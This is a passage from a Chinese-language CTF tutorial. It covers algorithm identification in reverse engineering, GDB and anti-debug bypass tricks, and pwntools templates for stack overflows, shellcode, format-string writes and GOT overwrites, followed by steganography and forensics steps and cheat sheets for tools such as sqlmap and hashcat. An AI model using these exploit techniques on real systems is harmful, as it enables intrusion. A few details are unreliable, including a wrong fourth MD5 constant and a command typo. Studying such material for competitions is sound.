# MD5初始化常量： 0x67452301, 0xefcdab89, 0x98badcfe, 0x12345678
# AES S盒： 0x63, 0x7c, 0x77, 0x7b, 0xf2, 0x6b, 0x6f, 0xc5
# DES IP表： 58, 50, 42, 34, 26, 18, 10, 2
```

**第四步：常见逆向算法快速识别**

| 算法 | 标志性常量 | 在IDA中的特征 |
|------|-----------|-------------|
| Base64 | 编码表字符串 | `ABCDEFGHIJKLMNOPQRSTUVWXYZ...` |
| MD5 | 初始化向量 | `0x67452301`, `0xefcdab89` |
| SHA-1 | 初始化向量 | `0x67452301`, `0xEFCDAB89` |
| AES | S盒 | `0x63, 0x7C, 0x77, 0x7B` |
| DES | S盒/IP表 | `0x01, 0x01, 0x02, 0x02` |
| RC4 | 256字节S盒 | 256次循环的置换操作 |
| TEA/XTEA | delta常量 | `0x9E3779B9`（黄金比例） |
| 异或加密 | 循环XOR操作 | `xor al, byte ptr [...+...]` |
| CRC32 | 多项式 | `0xEDB88320` |

#### 2.4.2 动态调试技巧

```bash
# GDB + pwndbg 常用命令
gdb ./challenge

# 设置断点
b main           # 在main函数下断
b *0x4011b0     # 在指定地址下断
b printf         # 在printf函数下断

# 运行
r                # 运行程序
r arg1 arg2     # 带参数运行

# 查看内存和寄存器
info registers   # 查看所有寄存器
x/s $rdi        # 查看rdi指向的字符串
x/20x $rsp      # 查看栈内容（20个十六进制数）
x/s 0x402000    # 查看指定地址的字符串

# 执行控制
c               # 继续执行
si              # 单步执行（进入函数）
ni              # 单步执行（不进入函数）
finish          # 执行到当前函数返回

# 修改内存（用于绕过检查）
set *(int*)0x602000 = 1   # 修改内存值
set $rax = 1              # 修改寄存器值
set {char[8]}0x602000 = "flag{123}"  # 写入字符串

# 查看堆信息
heap            # 显示堆概况
bins           # 显示freelist
vis_heap_chunks # 可视化堆块

# pwndbg增强功能
telescope $rsp 20    # 栈回溯
search "flag"        # 搜索内存中的flag
derence 0x602000     # 查看指针链
```

**动态调试绕过检查的常用方法：**

```bash
# 1. 修改跳转指令（NOP掉跳转）
# 将 jne（不等则跳转）改为 nop
# 在gdb中：
set {char}0x401234 = 0x90  # NOP指令

# 2. 修改比较结果
# 找到cmp指令后的跳转，直接修改标志位
set $zf = 1  # 设置零标志位（使je/jne反转）

# 3. 修改程序返回值
# 在函数返回前修改eax/rax
set $rax = 0  # 使返回值为"成功"
```

#### 2.4.3 反调试绕过

```bash
# 常见反调试手段及绕过
# 1. ptrace检测（Linux）
# 程序调用ptrace(PTRACE_TRACEME)防止被调试
# 绕过：修改ptrace的返回值
# gdb中： b ptrace → r → set $rax = 0

# 2. 时间检测
# 程序在执行前后获取时间戳，调试会导致超时
# 绕过：修改比较时间的跳转指令

# 3. /proc/self/status检测
# 程序读取TracerPid判断是否被调试
# 绕过：设置断点在open/read，修改返回值

# 4. Signal检测
# 程序注册SIGTRAP等信号处理
# 绕过：用LD_PRELOAD劫持信号处理函数

# 5. Windows下的IsDebuggerPresent
# 绕过：修改PEB中的BeingDebugged字段
```

### 2.5 Pwn方向核心技巧

Pwn方向利用程序中的内存安全漏洞获取控制权。核心是理解程序内存布局和CPU执行流程。

#### 2.5.1 栈溢出基础

栈溢出是Pwn最基础也是最重要的漏洞类型：

```python
from pwn import *

# ===== 栈溢出利用模板 =====

# 1. 连接目标
# p = process('./binary')      # 本地调试
p = remote('challenge.ctf.com', 12345)  # 远程

# 2. 查找溢出偏移量（使用pattern）
payload = cyclic(200)  # 生成200字节的de Bruijn序列
p.sendline(payload)
p.wait()
# 查看crash地址：dmesg | tail 或 gdb中查看RIP值
offset = cyclic_find(p64(crash_addr))  # 计算偏移量

# 3. 构造ROP链（覆盖返回地址）
elf = ELF('./binary')

# 简单ROP：跳转到后门函数
backdoor_addr = elf.symbols['backdoor']  # 或手动查找地址
payload = b'A' * offset
payload += p64(backdoor_addr)
p.sendline(payload)

# 4. 获取shell（shellcraft生成shellcode）
payload = b'A' * offset
payload += p64(0x4011b6)  # 跳转到shellcode的地址
payload += asm(shellcraft.sh())  # 生成/bin/sh的shellcode
p.sendline(payload)

p.interactive()
```

**ROPgadget查找ROP链：**

```bash
# 查找所有gadget
ROPgadget --binary ./challenge

# 查找特定gadget
ROPgadget --binary ./challenge | grep "pop rdi"
ROPgadget --binary ./challenge | grep "pop rdi ; ret"
ROPgadget --binary ./challenge | grep "pop rsi"
ROPgadget --binary ./challenge | grep "pop rdx"
ROPgadget --binary ./challenge | grep "int 0x80"  # 32位syscall
ROPgadget --binary ./challenge | grep "syscall"    # 64位syscall

# 使用one_gadget查找execve("/bin/sh", NULL, NULL)
one_gadget /lib/x86_64-linux-gnu/libc.so.6
# 输出：0x4f3d5 0x4f432 0x10a38c （选一个合适的地址）
```

#### 2.5.2 格式化字符串漏洞

格式化字符串漏洞允许任意内存读写：

```python
from pwn import *

p = process('./challenge')

# ===== 格式化字符串读取任意地址 =====
# 泄露栈上数据
p.sendline(b'%p.%p.%p.%p.%p.%p.%p.%p')
leak = p.recv()
print(f"Stack leak: {leak}")

# 读取任意地址的值（如GOT表中的函数地址）
# 需要知道目标地址在第几个参数位置
p.sendline(b'%7$s' + p64(0x404018))  # 第7个参数位置读取0x404018的值

# ===== 格式化字符串写入任意地址 =====
# 使用%hn写入半字（2字节）
# %n将已输出字符数写入指针参数

def fmt_string(offset, addr, value, write_size='hn'):
    """构造格式化字符串写入payload"""
    payload = b''
    # 构造地址部分
    if write_size == 'hn':
        payload += p64(addr)  # 目标地址（放在末尾）
    elif write_size == 'hhn':
        payload += p64(addr)
    
    # 计算需要的填充
    # 将value的各字节按从小到大排列
    if write_size == 'hn':
        values = [(value >> 16) & 0xffff, value & 0xffff]
        values.sort()  # 按值排序
    elif write_size == 'hhn':
        values = [value & 0xff, (value >> 8) & 0xff, 
                  (value >> 16) & 0xff, (value >> 24) & 0xff]
    
    # 构造%Nx%K$hn格式的字符串
    prev = 0
    for i, val in enumerate(values):
        padding = (val - prev) % 0x10000
        if padding > 0:
            payload += f'%{padding}c%{offset+i}$hn'.encode()
        else:
            payload += f'%{offset+i}$hn'.encode()
        prev = val
    
    return payload

# 利用pwntools的自动格式化字符串工具
# fmtstr_payload(offset, {addr: value})
from pwn import *
payload = fmtstr_payload(6, {0x404018: 0x12345678})
```

#### 2.5.3 libc版本识别与利用

```bash
# 方法一：从泄露的地址反查libc版本
# 如果泄露了printf/GOT中的地址，减去libc中的偏移量得到libc基址
libc_base = leaked_printf - libc.symbols['printf']

# 方法二：使用libc-database工具
# https://github.com/niklasb/libc-database
./find printf 0x7ffff7a30000  # 输入泄露的地址和libc中的偏移

# 方法三：查看libc文件本身的标识
strings /lib/x86_64-linux-gnu/libc.so.6 | grep "GNU C Library"
# 输出：GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.2) stable release version 2.31
```

**GOT覆写攻击：**

```python
from pwn import *

# 当可以写入任意地址时，覆写GOT表中的函数指针
elf = ELF('./challenge')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 获取GOT表中函数的地址
got_printf = elf.got['printf']   # printf在GOT表中的地址
libc_system = libc.symbols['system']  # libc中system的偏移
libc_printf = libc.symbols['printf']  # libc中printf的偏移

# 计算system的实际地址
system_addr = libc_base + libc_system

# 覆写GOT表：将printf的GOT条目改为system
# 这样下次调用printf时实际执行的是system
```

#### 2.5.4 常见保护机制

| 保护机制 | 全称 | 作用 | 绕过方法 |
|---------|------|------|---------|
| NX | No-Execute | 栈不可执行 | ROP链（不执行栈上的代码） |
| ASLR | Address Space Layout | 地址随机化 | 泄露地址计算基址 |
| PIE | Position Independent Executable | 代码段随机化 | 泄露代码段地址 |
| RELRO | Relocation Read-Only | GOT表只读 | 部分RELRO可覆写 |
| Canary | Stack Canary | 栈保护 | 泄露Canary值或绕过 |

```bash
# 查看程序保护机制
checksec --file=./challenge
# 或在pwntools中
# ELF('./challenge').checksec()

# 典型输出：
# RELRO:    Partial RELRO       ← GOT可写
# Stack:    Canary found         ← 有栈保护
# NX:       NX enabled           ← 栈不可执行
# PIE:      PIE enabled          ← 地址随机化

# 部分RELRO vs Full RELRO
# Partial RELRO: GOT可写 → 可以GOT覆写
# Full RELRO:    GOT只读 → 不能GOT覆写，需要其他方法
```

### 2.6 Misc方向基础技巧

Misc（杂项）方向涵盖隐写、取证、编码转换等多种题型。

#### 2.6.1 隐写分析基础

```bash
# ===== 图片隐写分析流程 =====

# 第一步：文件基本信息
file challenge.png
exiftool challenge.png        # 查看EXIF信息（可能包含Flag）
strings challenge.png | grep -i flag  # 提取字符串

# 第二步：文件分离
binwalk -e challenge.png       # 自动分离嵌入文件
binwalk -M challenge.png       # 递归分离
foremost challenge.png         # 另一种文件分离工具

# 第三步：LSB隐写检测
zsteg challenge.png            # PNG隐写分析
stegsolve challenge.png        # 逐位查看各通道

# 第四步：盲水印
python3 bwm.py decode 1.png 2.png output.png  # 盲水印提取

# 第五步：其他隐写工具
steghide extract -sf challenge.jpg  # 提取（可能需要密码）
steghide extract -sf challenge.jpg -p ""  # 空密码尝试
stegolsb steghide -r -i challenge.png -o output.txt  # LSB提取
```

#### 2.6.2 流量分析基础

```bash
# ===== PCAP文件分析流程 =====

# 第一步：基本统计
capinfos challenge.pcap           # 流量包基本信息
tshark -r challenge.pcap -q -z io,stat,1  # 每秒流量统计

# 第二步：提取HTTP对象
tshark -r challenge.pcap --export-objects http,./http_objects

# 第三步：查看DNS查询
tshark -r challenge.pcap -Y "dns" -T fields -e dns.qry.name

# 第四步：过滤特定协议
tshark -r challenge.pcap -Y "http" -T fields -e http.request.uri
tshark -r challenge.pcap -Y "tcp.port == 80"

# 第五步：提取FTP/Telnet数据
tshark -r challenge.pcap -Y "ftp-data" -T fields -e data

# 使用Wireshark GUI（更直观）
# 1. 打开pcap文件
# 2. 使用过滤器：http || dns || ftp || telnet
# 3. 跟踪流：右键 → Follow → TCP/HTTP/UDP Stream
# 4. 导出对象：File → Export Objects → HTTP/FTP/SMB
```

#### 2.6.3 文件取证与分析

```bash
# ===== 综合文件分析流程 =====

# 1. 磁盘镜像分析
mount -o loop,ro disk.img /mnt/disk  # 挂载磁盘镜像
fls -r disk.img                    # 列出所有文件（包括已删除的）
icat disk.img inode_number          # 恢复已删除文件

# 2. 内存取证
volatility -f memory.dump imageinfo                    # 识别操作系统
volatility -f memory.dump --profile=Win7SP1x64 pslist  # 列出进程
volatility -f memory.dump --profile=Win7SP1x64 filescan  # 扫描文件
volatility -f memory.dump --profile=Win7SP1x64 dumpfiles -D output/  # 导出文件

# 3. 日志分析
cat access.log | awk '{print $1}' | sort | uniq -c | sort -rn  # IP频率
grep -i "flag\|error\|password" *.log  # 关键字搜索
cat access.log | grep "POST" | head -20  # POST请求分析

# 4. 二维码/条形码识别
zbarimg challenge.png   # 识别二维码/条形码
python3 -c "
from PIL import Image
import subprocess
subprocess.run(['zbarimg', 'challenge.png'])
"
```

### 2.7 常见误区与避坑指南

CTF解题中，以下错误会浪费大量时间：

| 误区 | 正确做法 | 说明 |
|------|---------|------|
| 一上来就写Exploit | 先手工分析再自动化 | 手工确认漏洞类型和位置，再编写脚本 |
| 忽略题目描述 | 仔细阅读每一个字 | 题目描述常包含关键提示（如"注意大小写"） |
| 不检查文件类型 | 先用file命令判断 | 扩展名不可靠，文件头才可信 |
| 直接用工具跑 | 先理解原理再用工具 | sqlmap不是万能的，理解注入原理才能解决复杂场景 |
| 忽略版本信息 | 记录所有版本号 | 服务器版本、框架版本、库版本都可能是突破口 |
| 只看当前题目 | 关注题目之间的关联 | 某些CTF的Flag可能在其他题目的结果中 |
| Flag格式不检查 | 注意区分大小写和格式 | `flag{xxx}`和`FLAG{xxx}`是不同的 |
| 不备份中间结果 | 及时保存关键数据 | 泄露的地址、分解的因数、找到的Gadget |
| 放弃太快 | 换个思路继续尝试 | 同一漏洞可能有多种利用方式 |
| 不写Writeup | 每道题都写记录 | 解题记录是宝贵的学习资料 |

**解题心态调整：**

- **不要追求完美**：CTF比赛的目标是拿分，不是写完美的Exploit
- **善用Google**：看到题目描述中的关键词（如特定版本号、框架名），立即搜索相关CVE
- **参考Writeup**：卡住时可以搜索类似题目的Writeup，但要先尝试理解而非直接抄
- **团队协作**：Web和Pwn选手可以同时分析同一台服务器的不同服务

### 2.8 解题工具速查表

**Web方向：**

| 工具 | 用途 | 常用命令 |
|------|------|---------|
| sqlmap | SQL注入自动化 | `sqlmap -u "URL?id=1" --batch` |
| dirsearch | Web目录扫描 | `dirsearch -u http://target -e php,txt,html` |
| gobuster | 目录/子域名枚举 | `gobuster dir -u http://target -w wordlist.txt` |
| Burp Suite | HTTP抓包/重放 | 浏览器代理 → 127.0.0.1:8080 |
| nikto | Web漏洞扫描 | `nikto -h http://target` |
| ffuf | Fuzzing工具 | `ffuf -u http://target/FUZZ -w wordlist.txt` |

**Crypto方向：**

| 工具 | 用途 | 常用命令 |
|------|------|---------|
| CyberChef | 编解码瑞士军刀 | 浏览器打开 |
| RsaCtfTool | RSA漏洞利用 | `python3 RsaCtfTool.py --publickey key.pub --uncipherfile cipher` |
| yafu | 大数分解 | `yafu factor <n>` |
| SageMath | 数学计算 | `sage script.sage` |
| hashcat | 哈希破解 | `hashcat -m 0 hash.txt wordlist.txt` |

**Reverse方向：**

| 工具 | 用途 | 常用命令 |
|------|------|---------|
| IDA Free | 反汇编/反编译 | 打开二进制文件 |
| Ghidra | 逆向分析（开源） | `ghidraRun` |
| GDB+pwndbg | 动态调试 | `gdb ./binary` |
| radare2 | 命令行逆向 | `r2 -d ./binary` |
|脱壳工具 | UPX脱壳 | `upx -d packed_binary` |

**Pwn方向：**

| 工具 | 用途 | 常用命令 |
|------|------|---------|
| pwntools | 漏洞利用框架 | `from pwn import *` |
| ROPgadget | ROP链构造 | `ROPgadget --binary ./binary` |
| one_gadget | 查找execve gadget | `one_gadget libc.so.6` |
| pwndbg/GEF | GDB增强插件 | `gdb`（自动加载） |
| checksec | 查看保护机制 | `checksec --file=./binary` |

**Misc方向：**

| 工具 | 用途 | 常用命令 |
|------|------|---------|
| binwalk | 文件分离 | `binwalk -e challenge` |
| exiftool | 图片元数据 | `exiftool challenge.png` |
| stegsolve | 隐写分析 | `java -jar Stegsolve.jar` |
| zsteg | PNG隐写 | `zsteg challenge.png` |
| wireshark | 流量分析 | `wireshark challenge.pcap` |
| volatility | 内存取证 | `volatility -f mem.dump imageinfo` |
